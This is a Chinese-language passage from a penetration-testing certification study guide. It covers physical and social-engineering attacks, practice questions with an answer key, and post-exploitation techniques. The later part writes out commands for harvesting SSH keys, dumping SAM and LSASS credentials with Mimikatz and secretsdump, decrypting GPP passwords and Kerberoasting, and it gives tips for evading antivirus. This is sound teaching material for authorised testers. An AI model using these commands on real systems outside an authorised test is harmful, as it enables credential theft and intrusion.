如果你获得了设施内一个或多个计算资产的物理访问权限，你也可以亲自引入 USB 键盘记录器。在这种情况下，它将是一个透明设备，串联在计算机键盘和计算机的 USB 端口之间，甚至安装在键盘内部。你也可以类似地将其插入计算机，并依赖自动运行在系统上运行任意数量的恶意程序，包括安装键盘记录器。键盘记录器将记录用户的击键并将数据记录到文本文件中，该文件可以被物理检索或通过电子方式泄露。一些 USB 键盘记录器具有 Wi-Fi 功能并充当热点。这为数据检索提供了一种更方便的方法，因为键盘记录的数据可以远程下载。Keelog（[`www.keelog.com`](https://www.keelog.com)）制造各种类型的 USB 和基于串口（用于串口控制台）的键盘记录产品，以帮助支持你的测试需求。

############### 肩窥

肩窥是一种利用观察技术的物理攻击，攻击者假装做其他事情，实则观察目标在做什么，例如输入密码。这种攻击要求攻击者与人类目标近距离接触，旨在在不被察觉的情况下窃取敏感信息。这种攻击不一定需要与其他攻击结合以获得近距离接触，因为它可以针对在公共场所操作的目标实施。

###### 尾随

尾随是一种物理攻击类型，可以与社会工程学技术结合，以绕过物理访问控制，从而未经授权地进入受限区域。这是由未经授权的人员紧跟在具有合法访问权限的授权员工身后走进大门来实现的。这可能是在目标知情同意的情况下，也可能是在不知情的情况下。在目标察觉的情况下，渗透测试人员可能会尝试通过说一些话来获取同意，例如：“抱歉，我是新来的，把工牌落在桌子上了。非常感谢你的帮助。”

正如表 8-1 所引用的，NIST PE-3 是一项可测试的控制措施，在测试过程中，渗透测试团队可能能够通过贿赂前台保安或使用转移注意力技术，对其进行社会工程学攻击，使其允许团队进入设施。根据测试结果，可能需要采取缓解措施进行纠正，例如培训或寻找不太容易成为社会工程学攻击受害者的新保安。

###### 工牌

PE-2 也是一项可测试的控制措施。如果渗透测试团队能够破坏合法员工的射频识别（RFID）钥匙，然后克隆该钥匙并用它冒充该员工，渗透测试团队就能够利用该员工在整个设施中的访问权限。

正如我们在第 4 章中讨论的，RFID 设备可以通过读取其数据并将相同数据写入另一张兼容卡片来克隆。当 RFID 卡片被用作访问设备时，物理攻击通常集中在获得必要的近距离以捕获 RFID 信息。请记住，这些设备的范围可能低至几厘米，高至几英尺。社会工程学物理攻击可能涉及与目标交谈，以便在克隆过程中保持近距离，或采用战术使用克隆卡片获得访问权限。例如，普通卡片可能有公司徽标或员工照片。如果你长得完全不像你克隆工牌的那个员工，保安注意到时会不会有问题？如果克隆过程出了问题，导致你在门口被拒之门外怎么办？这些都是其他社会工程学技术可能派上用场的情况。

###### 基本物理渗透工具

在物理渗透测试期间，你需要确保拥有评估客户物理安全防护实施弱点所需的工具。这可能包括 USB 驱动器、工牌克隆设备和绕过门锁机制的设备。基本开锁工具包提供了一些击败大多数标准锁安全机制所需的基本工具，包括`张力扳手`、`开锁工具`，甚至可能包括`撞匙`。图 8-1 显示了一个基本的开锁工具包，价格低于 20 美元（撞匙除外，通常使用切割机制作）。但你应该拥有的最重要工具是你的书面测试授权书。


**图 8-1** 基本开锁工具包


**警告** 锁撞击不仅可能损坏锁，在美国某些地区（以及世界其他地区）被视为非法。在某些州，甚至持有开锁工具包都是非法的。在其他州，只有持有执照的锁匠才合法持有。开放锁匠组织（TOOOL）是一个为那些想要提升锁和开锁知识的人提供的资源。他们的网站提供了一个很好的起点，以了解在你所在的州开锁是合法还是非法（[`toool.us/laws.html`](https://toool.us/laws.html)）。

################ 对策

组织可以使用许多缓解措施来阻止与社会工程学攻击相关的风险，包括：

- 安全培训和信任验证（信任但验证）
- 微调技术控制
- 主动防御（入侵检测和预防系统）和安全监控（用于翻垃圾桶的摄像头）
- 敏感信息碎纸机（即纸张和 CD 等）
- 处理敏感信息的组织政策

年度测试是另一种有效的对策，可以帮助组织为各种类型的网络钓鱼攻击做准备。GoPhish（[`getgophish.com`](https://getgophish.com)）是一个用于测试组织遭受网络钓鱼风险的网络钓鱼框架。你可以创建网络钓鱼模板、目标列表，并在在线仪表板中跟踪结果。渗透测试人员可以使用此类框架在受控环境中测试和评估网络钓鱼方法。图 8-2 显示了使用 Web 表单进行网页时，如何跟踪发送和打开的电子邮件、点击的链接以及提交的数据。


**图 8-2** GoPhish – 网络钓鱼成功概览

### 章节回顾

物理安全在组织的整体安全计划中发挥着重要作用。但人员是安全最大的威胁之一。社会工程学可以是绕过保安或通过尾随穿过门口的有效手段。具有纵深防御物理安全系统要求的组织应包含多层防护。外部围栏、屏障、锁具，甚至早期预警检测和监控系统，都有助于让诚实的人保持诚实。

社会工程学是测试组织初始防线的有效方法。可以使用多种激励技术来影响目标的决策技能，诱导他们做你想让他们做的事。网络钓鱼是一种流行的社会工程学方法，可以通过语音、短信或电子邮件传递。许多对策可以帮助保护组织并使其为社会工程学攻击做好准备。年度培训和测试是评估组织对社会工程学攻击易感性的一种方式，并提供跟踪结果和在需要改进的领域应用额外培训的能力。

################ 问题


##### 练习题

###### 1. 社会工程学激励技术
渗透测试人员可以针对社会工程学攻击使用不同的激励技术。在渗透测试期间，客户要求使用特定的电子邮件模板，诱使其员工尝试购买某样东西，以响应仅针对其组织的特定促销活动。这种激励技术被称为？

**A.** 权威  
**B.** 相似性  
**C.** 稀缺性  
**D.** 社会认同

###### 2. 基于 URL 的社会工程学攻击
选择两种使用 URL 将目标发送到网页以对计算机网络发起进一步攻击的社会工程学攻击类型。

**A.** 消失  
**B.** 短信钓鱼  
**C.** 定向钓鱼  
**D.** 借口攻击

###### 3. 物理诱饵攻击
一名员工下车时注意到停车场地上有一个 USB 驱动器。该驱动器看起来是新的，侧面用小字写着“我的音乐文件”。员工将驱动器带到工作岗位，尝试播放其中一个音乐文件。电脑开始表现得有点异常后，杀毒软件提醒用户存在潜在恶意软件。这种社会工程学方法通常被称为？

**A.** 诱捕  
**B.** 肩窥  
**C.** 水坑攻击  
**D.** 诱饵攻击

###### 4. Social-Engineer Toolkit (SET) 功能
Social-Engineer Toolkit (SET) 是一个基于 Python 的框架，可以执行以下哪些操作？（选择所有适用项。）

**A.** 向目标发送电子邮件  
**B.** 扫描 IP 地址  
**C.** 生成短信攻击  
**D.** 进行 Wi-Fi 通话

###### 5. 社会工程学对策
许多类型的对策可以帮助组织准备并缓解潜在的社会工程学攻击。以下哪些是针对社会工程学攻击的有效对策？（选择所有适用项。）

**A.** 培训  
**B.** 摄像头  
**C.** 碎纸机  
**D.** 以上全部

###### 6. 授权文档参考
犯罪冒充受州法律管辖，属于一种犯罪行为，可能涉及身份盗窃、冒充执法人员或法律顾问，以及许多其他涉及通过冒充他人来欺骗他人的攻击途径。你可以查阅哪两份文档，以确定你想在测试期间使用的社会工程学攻击是否已获得组织批准？（选择所有适用项。）

**A.** 增强规则  
**B.** 交战规则  
**C.** 工作说明书  
**D.** 服务级别协议

###### 7. 语音钓鱼攻击识别
Alice 拥有一家利润丰厚的咨询公司，为客户处理大量隐私信息。公司有 50 多名员工，但将 IT 服务外包给了另一家公司。一天下午，Alice 午餐时，前台接到一个自称来自 IT 服务提供商的人打来的电话，称他们正试图处理 Alice 的一个服务工单，需要她的私人手机号码以便询问一些私密性质的问题。前台知道 Alice 没有任何电脑问题。Alice 的前台接到了哪种类型的社会工程学攻击？

**A.** 定向钓鱼  
**B.** 鲸钓  
**C.** 诱饵攻击  
**D.** 语音钓鱼

###### 8. 物理访问控制利用
\_\_\_\_\_\_\_\_\_\_\_ 是一种社会工程学技术，可用于利用物理访问控制，在授权人员同意进入的情况下，获得对受限区域的未授权访问。

**A.** 尾随  
**B.** 搭便车  
**C.** 撞匙开锁  
**D.** 绕过

###### 9. NIST SP 800-53 物理安全控制评估
NIST SP 800-53（修订版 4）中的物理与环境安全领域提供了 20 种不同的访问控制，可应用于不同的影响级别。适用于组织物理安全方案的所有控制都需要进行评估；然而，何时控制需要技术评估？

**A.** 当你需要确保控制实施有效时  
**B.** 控制不需要技术评估，因为所有控制都可以通过审查组织策略来评估  
**C.** 渗透测试的结果将决定哪些控制需要技术评估  
**D.** 在对策略中的控制进行技术评估后

#### 答案解析

##### 1. 答案：C
**C.** 诱使目标点击链接以响应促销活动是一种稀缺性形式。

##### 2. 答案：B, C
**B, C.** 短信钓鱼和定向钓鱼通过短信和电子邮件发送 URL，将受害者引导至网页，以对其计算机网络发起进一步攻击。

##### 3. 答案：D
**D.** 诱饵攻击是正确答案，是一种用于引诱受害者为有形奖励而采取行动的战术。

##### 4. 答案：A, C
**A, C.** SET 有助于促进各种类型的社会工程学攻击。它可用于的两种攻击类型是基于电子邮件和基于短信的社会工程学攻击。

##### 5. 答案：D
**D.** 所有这些选项都有助于缓解社会工程学攻击的物理和电子方法。

##### 6. 答案：B, C
**B, C.** 在进行社会工程学攻击之前，最好确保接受此类评估的组织批准任何及所有 Web、电子邮件、短信等模板，然后再执行测试。交战规则和工作说明书是两份可以提供指导的文档，说明在社会工程学攻击期间可能允许或不允许的内容。

##### 7. 答案：D
**D.** 这是语音钓鱼（vishing，即 voice phishing）的一个常见示例，攻击者试图扮演另一个有紧急事项要讨论或需要目标立即关注的人，以施压受害者提供所请求的信息。

##### 8. 答案：B
**B.** 搭便车是正确答案，因为开门的人同意允许入侵者进入。

##### 9. 答案：A
**A.** NIST SP 800-53（修订版 4）中的物理与环境安全控制提供了关于如何评估控制的补充指南。在某些情况下，可以通过审查策略控制文档来评估控制。如果策略提供了充分证据证明控制已实施，则该控制得到满足。然而，某些控制可以从技术角度进行评估，即针对安全控制机制进行评估，以确定其有效性并识别可能需要缓解的任何实施弱点。

### 参考资料

#### 1. FBI 常见诈骗与犯罪
[`www.fbi.gov/scams-and-safety/common-scams-and-crimes/nigerian-letter-or-419-fraud`](https://www.fbi.gov/scams-and-safety/common-scams-and-crimes/nigerian-letter-or-419-fraud)

## 第 9 章：后渗透阶段

### 本章学习目标
在本章中，你将学习

- 使用后渗透工具完成各种练习
- 执行像传递哈希这样的横向移动攻击
- 用于在网络上横向移动的调查技术
- 发现维持持久化和避免检测的方法
- 探索用于权限提升和枚举的后渗透技术

################ 概述
到目前为止，在本书中，我们已经介绍了利用网络、应用程序和人为漏洞以获取访问权限的不同方法。在本章中，我们将研究一旦你在系统中获得初始立足点后可以使用的攻击技术。这些被称为后渗透技术。Mac、Linux 和 Windows 都有大量的后渗透技术。然而，我们将重点关注 CompTIA 考试目标中的场景和工具。这包括用于权限提升和信任滥用、横向移动、避免检测以及后渗透信息收集技术的工具和技术。

### 枚举
#### Enumeration


################ 发现

一旦你获得了对目标操作系统的初始访问权限，你将希望更好地了解该环境，以确定为实现渗透测试目标而采取的后续步骤。你将想要弄清更多关于你已访问的系统的信息，包括用户、组、域或域信任关系，以及网络上连接到它的其他系统。此外，你还将想要对现有的文件和文件夹进行调查，以防你有权访问敏感数据。


**提示** Metasploit Unleashed ([`www.offensive-security.com/metasploit-unleashed`](https://www.offensive-security.com/metasploit-unleashed)) 是 Offensive Security 提供的免费在线黑客教程。本章将讨论的许多 Metasploit 示例均涵盖在该教程中，同时还包括如何利用 Metasploit 框架的后渗透模块来收集凭证、枚举远程和本地共享中的敏感数据、将权限提升至更高权限的账户等示例。访问他们的网站并遵循教程，以学习使用 Metasploit 框架的其他利用和后渗透技术。

MITRE ATT&CK 将弄清环境更多信息的过程描述为“发现”战术。在企业矩阵（涵盖 Windows、Linux 和 macOS 系统）中，MITRE 基于对野外威胁行为者的观察，列举了 27 种技术。这些技术包括：识别你是否处于虚拟机、沙箱或欺骗环境中；枚举网络共享的内容；识别网络上的用户、域和其他系统；以及检查系统设置和已安装应用程序以获取有用数据等。简而言之，你正在根据渗透测试目标搜索数据，并收集可用于更接近目标的工具。

##### 文件

让我们谈谈你可能在文件中寻找的一些内容。网络共享和本地文件可能包含密码保管库、明文凭证或其他目标数据。如果你能窃取密码保管库，可能能够离线破解它们。书签文件可能包含作为其他应用程序登录门户的网站，或存储信息的存储库（如 SharePoint 或 Wiki）。

你可能想要寻找 SSH 密钥（通常存储在 Linux/Mac 的 `$HOME/.ssh` 目录中），或寻找远程访问程序的配置文件，例如 PuTTY。这些文件可能存储有关要连接的其他系统的信息（例如在 `$HOME/.ssh/known_hosts` 文件中），或使你能够在无需额外密码的情况下访问它们。如果你在后渗透活动中设法收集了一些有效的 SSH 用户名和密码，你可以利用这些访问权限潜在地深入挖掘网络。让我们花一点时间以此为例进行讲解。

公钥认证是基于密码登录的一种替代方案，可用于验证发起连接的 SSH 客户端以及单个用户账户的身份。它提供更强的加密，并结合 SSH 代理跨 SSH 服务器使用 SSO（单点登录），可消除用户每次登录时输入密码的需要。公钥（`id_rsa.pub` 或 `id_dsa.pub`）和私钥（`id_rsa` 或 `id_dsa`）对将保存到用户的 `$HOME/.ssh` 目录中。要查看 SSH 密钥是否加密，可以使用 `openssl` 命令（rsa 语法：`openssl rsa -in id_rsa`）。如果密钥未加密，你将不会被提示输入密码，且密钥的明文值将打印到屏幕上。

要将 SSH 密钥登录与 OpenSSH 配合使用，请将 `id_rsa.pub` 的内容复制到 `$HOME/<user>/.ssh/authorized_keys` 文件中。公钥条目用于在登录过程中验证 `<user>` 账户呈现的私钥。这发生在服务器端，而非客户端。

Metasploit 拥有几个模块可协助 SSH 劫持和利用。`auxiliary/scanner/ssh/ssh_login` 模块可用于针对远程 SSH 服务器验证凭证。Metasploit 中的 `services` 命令将列出其已知的端口、协议和主机。`-R` 功能将告诉 Metasploit 使用服务表中的主机填充当前模块中的 `RHOSTS` 字段。


当你运行 `ssh_login` 模块时，它将尝试使用你配置模块所用的用户名和 SSH 密码登录到远程主机。正如你在图 9-1 中所见，四个目标主机中有一个能够使用提供的用户名和密码组合登录。该模块将针对目标主机执行基本的 shell 载荷，该载荷可使用 `ssh_to_meterpreter` 后执行模块转换为 Meterpreter 载荷。


**图 9-1** Metasploit SSH 登录扫描器


**提示** Metasploit 中的 Shell 升级是将现有 Shell 转换为 Meterpreter 的机会。Shell 平台会被自动检测，并将最适合目标的 Meterpreter 版本用作载荷选项，除非另有指定。支持的平台包括 Linux、OS X、Unix、Solaris、BSD 和 Windows。用于针对你的会话的 Metasploit 后渗透载荷称为 `post/multi/manage/shell_to_meterpreter`。

利用从目标获得的新 Shell，我们可以使用名为 `multi/gather/ssh_creds` 的 Metasploit 后执行模块，尝试从目标主机收集 SSH 凭证，例如我们的用户账户可能有权访问的目标文件系统中的 SSH 私钥，如被攻陷用户的 `$HOME/.ssh` 目录。如图 9-2 所示，要运行该模块，只需设置 `SESSION` 标识符并执行 `run`。


**图 9-2** 收集 SSH 凭证

正如你所见，“user”账户在其 `$HOME` 目录中拥有可访问的 SSH 私钥。下一步是查看私钥是否未加密。如果是，我们就不需要弄清楚用于解密它的密码。我们看到正在使用 `authorized_keys` 文件，因此我们可以将公钥与授权密钥文件进行比较，看是否匹配；如果匹配，我们可以将被攻陷的私钥与公钥进行比较，以查看这确实是否是用于验证用户访问远程主机的密钥。要验证公钥和私钥对是否匹配，可以使用以下命令语法：`ssh-keygen -y -f <private key>`，然后读取公钥（例如 `id_rsa.pub`）的内容进行验证。最后一步是查看我们能从 `known_hosts` 文件中识别出哪些主机。这将列出用户已连接过的其他 SSH 服务器的 SSH 主机密钥，这可能提供潜在目标的数字足迹。如果凭证对这些主机有效，你只需沿着被攻陷用户的数字足迹前行，即可在模仿网络上正常行为的同时，降低被检测到的可能性。


**注意** Metasploit 模块会将所有发现的工件记录在 Loot 表中，并将从目标主机恢复的文件保存到本地文件系统上相应的 Metasploit 用户文件夹中。你可以使用 Metasploit 中的 `loot` 命令访问这些发现的工件。

Metasploit 后执行模块 `scanner/ssh/ssh_login_pubkey` 用于针对远程 SSH 服务器验证 SSH 密钥。使用被攻陷的用户密钥，我们可以尝试登录到之前使用密码无法通过身份验证的其他三个主机。这可以告诉我们该用户是否使用不同的本地密码，但使用相同的 SSH 密钥进行身份验证。


运行模块后，你可以在图 9-3 中看到，该用户账户在四台主机中的两台上使用了被泄露的公钥进行身份验证。Metasploit 的 `creds` 命令会打印凭据表中已验证的有效凭据，这些凭据要么通过其他 Metasploit 模块验证，要么从后执行模块中收集。


**图 9-3**  在 Metasploit 中显示 SSH 凭据

##### 系统配置

系统配置数据也可能很有用。例如，系统上运行着哪些进程？它们拥有什么权限？你可以利用这些信息将不稳定的 Shell 迁移到更稳定的进程中，或者通过模拟拥有该进程的用户来提升权限。这还能告诉你系统上运行着哪些应用程序，包括你可能需要规避的安全控制。在 Linux 和 macOS 中，你可以使用 `ps` 命令列出系统上的进程。在 Windows 中，你可以使用 `tasklist` 命令，或者如果你拥有提升的权限，可以使用 PowerShell 中的 `Get-Process` cmdlet。

```
powershell Get-Process -IncludeUserName
```

##### 用户和组

一旦你知道了系统上的用户，就可以查看他们所属的组，或寻找其他可作为目标的用户。在 Linux 中，你可以使用 `cat /etc/passwd` 或 `getent passwd` 列出系统上的所有用户。在 Windows 中，你可以使用 net 命令，例如 `net user`。添加 `/dom` 标志将列出域用户。或者，你可以查看特定用户的属性：`net user <username> /dom`。由于拥有的访问权限，具有特权访问或服务主体名称 (SPN) 的账户可能具有特殊的关注价值。请阅读本章后面“凭据访问”部分了解更多相关内容。组成员资格包含在用户信息中，但你也可以在 Windows 中使用 `net group` 和 `net localgroup` 命令查询组。在 macOS 中，你可以使用 `dscacheutil -q group` 或 `dscl . -list /Groups` 查看所有本地组的列表。Linux `ldapsearch` 命令可以搜索 LDAP 中的域组。Linux 可以使用 `id -a` 或 `groups` 命令识别本地组。要显示本地组和组成员资格的完整列表，可以在终端执行 `cat /etc/group`。

Bloodhound 等工具旨在将 Windows Active Directory 环境可视化，以寻找横向移动的路径。使用此工具，你可以执行快速查询以识别通往域管理员的最短路径，例如。然而值得注意的是，在非常大的目录环境中，Bloodhound 运行可能需要很长时间，并且它不是一种隐蔽的枚举方法。图 9-4 显示了 Bloodhound GUI。


**图 9-4**  Bloodhound


**注意**  关于进一步阅读，Raphael Mudge 在这里对 Bloodhound 的实际用例进行了精彩的演示：[`www.youtube.com/watch?v=gOpsLiJFI1o`](https://www.youtube.com/watch?v=gOpsLiJFI1o)

##### 网络连接

寻找系统连接的其他主机，特别是当系统拥有多个网络接口时，例如以下情况。连接网段的系统可以成为横向移动的宝贵目标。Windows 中的 `ipconfig /all` 命令和 Linux 及 Mac 中的 `ifconfig -all` 命令可用于列出网络接口，而 `netstat` 命令将列出设备上所有打开和监听的网络连接。


本地命令实用程序，如 Windows 的 `net view` 或 `ping`，可用于确定网络上其他内部目标是否存活。在 Linux 中，甚至可能安装了 `telnet` 或 `netcat`，这可以让你使用 `-z` 命令选项通过网络评估各种常见端口的状态：

```
nc -z 192.168.1.50 1-1000
```

##### 凭据访问

一旦识别出目标，有许多方法可以尝试获取凭据以访问其他系统。例如，你可以尝试使用像 Mimikatz 这样的工具从内存中转储它们。你甚至可以创建一个伪造的登录页面（也许通过使用 Metasploit 中的 "phish_windows_credentials" 后利用模块），然后尝试使用键盘记录器捕获活跃用户登录远程系统时的按键。甚至剪贴板中可能包含从密码库复制、粘贴到登录提示符之前的数据。让我们更深入地了解一些获取凭据的方法。

###### Windows：组策略首选项

组策略首选项 (GPP) 早在 Windows Server 2008 中就已引入，允许域管理员创建域策略以自动化繁琐任务，例如更改主机操作系统上的本地管理员账户密码。每个策略都创建时嵌入了一个加密密码。策略存储在 SYSVOL 中，其中包含登录脚本、组策略数据和其他域范围的数据，任何域成员用户均可查看。一切都很顺利，直到 2012 年之前，用于解密密码的高级加密标准 (AES) 私钥在 Microsoft Developer Network (MSDN) 上被公开。


由于域用户有权访问 SYSVOL，任何用户都可以恢复 XML 策略文件并解密 "cpassword" 值，该字段包含 AES 加密的 GPP 密码。这提供了一种在域中提升权限的简单方法。下图显示了 Groups.xml GPP 文件的内容，该文件配置为更改域客户端的本地管理员密码。


你可以使用互联网上各种可用的工具和脚本离线解密 GPP CPassword 值，例如 PowerSploit 工具包中的 `Get-DecryptedCpassword` PowerShell 函数（我们将在本章后面详细讨论该工具包）。另一种方法是使用 Metasploit 中的 `post/windows/gather/credentials/gpp` 后执行模块，从 SYSVOL 中的 XML 策略文件获取并解密 CPassword 值。


Microsoft 建议缓解 CPassword 提权漏洞的最佳方法是为你的操作系统安装提供的补丁，这将防止新凭据被添加到 GPP，并删除 SYSVOL 中包含密码的现有 GPP XML 文件。MS15-025 公告被分配给此漏洞，影响 Windows 2012 R2 及之前的旧版 Windows。

###### Windows：安全账户管理器

安全账户管理器 (SAM) 数据库文件包含主机的本地账户设置和密码哈希。你可以在 Windows 命令提示符下使用 `net user` 命令列出本地用户账户。你可以使用特定的内存技术检索 SAM 文件的内容，这些技术通过以下工具实现自动化：

- SamDump2
- LaZagna
- secretsdump
- pwdumpx.exe
- gsecdump
- Mimikatz

SAM 文件位于 `C:\Windows\System32\config`，但在操作系统启动时被锁定，无法复制。你必须使用诸如 ninjacopy 或卷影复制 (VSS) 之类的工具以编程方式复制这些文件。然而，这些内容可在本地注册表中获取。Windows 注册表是一个分层数据库，保存内核、设备驱动程序、服务等的低级配置设置。管理员可以使用 `regedit` 命令打开注册表编辑器图形用户界面，并根据需要更改注册表项。要从 HKEY_LOCAL_MACHINE (HKLM 注册表配置单元) 手动提取本地哈希，你将需要 SAM 和 SYSTEM 对象的注册表内容。你需要 SYSTEM 级权限才能提取这些注册表项。从命令提示符，你可以使用 `reg` 命令实用程序将所需对象复制到文件系统上的文件中。


####### 使用 Meterpreter shell，您可以将文件下载到本地 Kali 主机以进行离线处理。这两个文件都是从本地系统的数据库中离线提取哈希值所必需的。


Kali 中的 `impacket-secretsdump` 命令（即 `secretsdump.py` 的别名）可用于从远程目标转储机密，而无需在主机上安装代理或任何类型的持久化机制。如果您知道本地或域级管理员的密码，可以执行命令 `impacket-secretsdump [user]:[pass]@[ip address]` 远程提取所有机密。您也可以使用该命令，并将 SAM 和 SYSTEM 注册表对象作为命令选项传入，以提取本地哈希值（lmhash:nthash）。


###### Mimikatz (ATT&CK ID: S0002)

Mimikatz (ATT&CK ID: S0002) 是一款由 Benjamin Delpy ([`github.com/gentilkiwi/mimikatz`](https://github.com/gentilkiwi/mimikatz)) 编写的 C 语言后渗透工具，可协助在渗透测试过程中获取 Windows 账户的明文登录名和密码。除了凭据转储，该工具还提供许多其他功能，包括账户操纵。我们将在本章后面介绍其中一些功能，如可用于横向移动的功能。使用具有系统权限的 Meterpreter shell，您可以在必要时迁移到 64 位进程，验证一些系统信息，并加载 Mimikatz 模块。


> **提示** Mimikatz 有 32 位和 64 位版本。如果您使用 32 位进程来利用目标，Mimikatz 将加载该模块的 32 位版本。问题在于某些凭据提取功能需要 64 位进程。为防止这种情况发生，请在 Meterpreter shell 中使用 `migrate` 命令迁移到 64 位进程。要查看 64 位进程列表，请使用 `ps` Meterpreter 命令列出正在运行的进程，并找到一个可迁移的进程（例如 `wininit.exe`）。

成功加载模块后，您可以在 Meterpreter shell 中使用 `mimikatz_command` 调用 Mimikatz 命令。您可以执行 `mimikatz_command -h` 查看命令选项列表，或在 Meterpreter shell 中使用 `help mimikatz`（提供内置 Mimikatz 命令列表）来提取凭据。传递给 Mimikatz 命令的参数包括函数（模块）。要查看模块列表，请在 Meterpreter shell 中执行 `mimikatz_command -f foo::`，或使用任何其他实际不存在的编造函数。要查看 `samdump` 模块的选项，可以使用 `mimikatz_command -f samdump::`。要从 SAM 数据库转储本地哈希列表，请执行以下命令：`mimikatz_command -f samdump::hashes`。


> **注意** 在内存中运行 Mimikatz 而非写入磁盘有其优势，例如规避杀毒软件。您还可以使用一些简单的编码或混淆技术，例如更新 PowerSploit 框架中的 `Invoke-Mimikatz.ps1` 命令，直到杀毒软件特征码无法再检测到它，正如 [`www.blackhillsinfosec.com`](https://www.blackhillsinfosec.com) 上的“How to Bypass Anti-Virus to Run Mimikatz”文章所示。某些杀毒软件产品也可能被配置为将 Mimikatz 视为潜在的不需要程序 (PUP)，而不会真正将其视为恶意软件。杀毒程序应配置为在检测到此类软件时发出警报和/或进行隔离。其他缓解技术包括使用某种应用程序白名单软件（如 AppLocker），或使用软件限制策略来禁止执行未签名的程序。

####### Windows：本地安全机构

Windows 中本地安全机构 (LSA) 的目的是管理系统的安全策略，使用户能够登录、进行审核，并存储敏感数据，如服务账户密码。LSA 机密存储在名为 `HKLM\Security\Policy\Secrets` 的 Windows 注册表项中。每个登录到主机的本地或域账户，其凭据都将记录在 Secrets 注册表项中。如果为账户启用了自动登录（例如服务账户），账户信息也将存储在注册表中。无法使用 `regedit` 命令访问该项的内容；但是，您也可以使用 Mimikatz 从本地主机提取 LSA 机密。


本地安全机构子系统服务 (LSASS) 用于在用户成功登录系统后将凭据存储在内存中。这些凭据可能是 NT LAN Manager (NTLM) 密码哈希、LM 密码哈希，甚至是明文密码。这有助于使受信任应用程序之间的凭据共享变得高效，且不需要用户在每次需要身份验证时都输入用户名和密码。安全支持提供程序 (SSP) 是一个动态链接库 (DLL)，它使一个或多个安全包可供应用程序访问。安全支持提供程序接口 (SSPI) 作为 SSP 的接口运行，并帮助促进对存储凭据的访问。

MITRE ATT&CK 矩阵中记录的、被允许访问该子系统的部分 SSP 包括：

*   **Msv** 身份验证包：交互式登录、批处理登录和服务登录
*   **Wdigest** 摘要式身份验证协议旨在用于超文本传输协议 (HTTP) 和简单身份验证安全层 (SASL) 交换
*   **TSPkg** Web 服务安全包
*   **Kerberos** 在 Windows 中首选用于客户端-服务器域相互身份验证
*   **CredSSP** 为远程桌面服务提供单点登录 (SSO) 和网络级身份验证

您可以在 Windows 命令终端执行 Mimikatz 时，使用 `sekurlsa::logonPasswords` 选项来提取 LSASS 进程内存。


###### 服务主体名称与 Kerberoasting

###### Kerberos

**Kerberos** 是一种网络身份验证协议，它利用票据系统允许通过网络运行的主机和用户以安全的方式相互证明身份。这有助于缓解攻击者利用 Kerberos 协议消息进行窃听和重放攻击。密钥分发中心 (KDC) 保存所有密钥。当客户端使用域凭据成功进行身份验证时，票据授予票据 (TGT) 服务器将返回一个凭据，用户可用它向域内其他受信任的计算机和应用程序进行身份验证，如图 9-5 所示。每个票据有两个生命周期：票据生命周期和可续订生命周期。在任何时间点，都可以请求新票据，如果可续订生命周期尚未过期，KDC 将生成新票据。如果票据已过期，KDC 将拒绝请求，此时用户将需要重新进行身份验证。


**图 9-5** Kerberos 配置


######## Kerberoasting

服务主体名称 (SPN) 是唯一的，用于标识 Windows 服务的每个实例。在 Windows 中，Kerberos 要求 SPN 至少与一个服务登录账户（即运行该服务的账户）相关联。Kerberos 使用 SPN 来确定使用哪个服务账户哈希来加密服务票据。Active Directory 存储两种类型的 SPN：基于主机的 SPN，默认情况下是随机生成并链接到域内某台计算机的；以及任意 SPN，有时链接到域用户账户。在渗透测试期间，如果你能够攻破 TGT，则可能能够为任意主机或任意 SPN 从域控制器请求一个或多个 Kerberos 票据授予服务 (TGS) 服务票据。如果任意 SPN 绑定到域用户账户，则该用户账户明文密码的 NTLM 哈希被用于创建服务票据，从而允许你攻破有效的域用户哈希，并获得使用密码破解工具进行离线密码破解的机会。这种攻击被称为 **Kerberoasting**（ATT&CK ID: T1208）。

有许多工具可用于执行 Kerberoasting 攻击的各个部分。`Rubeus` ([`github.com/GhostPack/Rubeus`](https://github.com/GhostPack/Rubeus))、`Mimikatz` 和 `Empire` 框架的部分功能均适用。`Empire` 框架包含 `Invoke-Kerberoast` PowerShell 脚本。`Mimikatz` 还可以使用 `kerberos::list /export` 将内存中缓存的 TGS 导出为 `.kirbi` 文件。利用这些文件，你可以使用转换工具将哈希转换为 `John the Ripper` (JTR) 能够识别的格式，或使用 [`github.com/nidem/kerberoast`](https://github.com/nidem/kerberoast) 处提供的工具。


> **注意** Empire 是一个纯 PowerShell 后渗透代理 ([`powershellempire.com`](https://powershellempire.com))，可协助横向移动活动并维持持久化。虽然它不再维护或支持，但该项目与 `Mimikatz` 和 `PowerView` 的集成对于攻击 Windows 环境仍然很有用。

###### Windows: 无人值守安装

Windows 无人值守安装在初始设置期间使用应答文件进行处理。你可以使用应答文件在安装期间自动执行任务，例如配置桌面背景、设置本地审核、配置驱动器分区或设置本地管理员账户密码。应答文件是使用 `Windows System Image Manager` 创建的，它是 `Windows Assessment and Deployment Kit` (ADK) 的一部分，可从 [`www.microsoft.com`](https://www.microsoft.com) 免费下载。

Image Manager 允许你将 `unattended.xml` 文件保存到计算机，并允许你使用新的应答文件重新打包安装镜像（用于安装 Windows）。在渗透测试期间，你可能会在网络文件共享或本地管理员工作站上发现应答文件，这些文件可能有助于进一步利用环境。如果攻击者发现这些文件，并拥有生成镜像的主机的本地管理员访问权限，攻击者可以更新应答文件，在系统上创建新的本地账户或服务，并重新打包安装文件，以便将来使用该镜像时，新系统可能被远程攻破。


### 权限提升

在交互过程中，用户级权限只能让你走这么远。你只能访问该用户能访问的数据，只能执行该用户被允许执行的任务。权限提升是指在系统或网络上获取额外权限的结果。在本节中，我们将根据特定的操作系统上下文讨论权限提升。

你可能会看到关于两种权限提升的引用：垂直权限提升和水平权限提升。垂直权限提升是指获取更高级别权限的过程，例如利用已安装应用程序中的弱点在 Windows 中获得 `SYSTEM` 级权限，或利用归 root 所有的 `setuid` 命令中的配置弱点。水平权限提升是指获取超出现有用户上下文的资源访问权限的过程，例如获得对另一个用户主目录的访问权限，或获得访问权限使你能够到达网络设计预期之外的不同网段。


